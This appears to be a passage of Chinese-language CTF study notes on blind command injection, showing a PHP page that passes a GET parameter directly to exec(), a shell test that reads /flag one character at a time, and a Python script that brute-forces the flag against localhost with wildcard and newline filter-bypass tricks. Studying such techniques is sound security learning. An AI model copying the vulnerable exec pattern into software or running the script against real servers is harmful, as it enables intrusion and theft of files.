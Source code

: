 3. 盲注

   需要盲注的情况：

   ```php
   <?php
   highlight_file(__FILE__);
   
   exec($_GET['cmd'],$output,$return_val);
   if(!$return_val)echo "success";
   else echo "fail";
   ```

   可以依据判据通过：

   ```
   if [ $(cut -c 1 /flag) = U ];then ls;else abcd;fi
   ```

   来逐位爆破`/flag`文件的内容。

   盲注脚本：

   ```python
   import requests
   flag=''
   for i in range(1,100):
       for j in '}{-abcdefghijklmnopqrstuvwxyz0123456789`':
           url=f'http://localhost/?cmd=if [ $(cut -c {i} /f???) = {j} ]%0Athen ls%0Aelse abcd%0Afi'
           print(url)
           R=requests.get(url)
           R.encoding='utf-8'
           if 'success' in R.text:
               flag+=j
               break
           if j=='`':
               break
   print(flag)
   ```


![](https://github.com/wi1shu7/day_day_up/blob/main/daydayup.assets/1999159-20201002223158950-1419102854.png)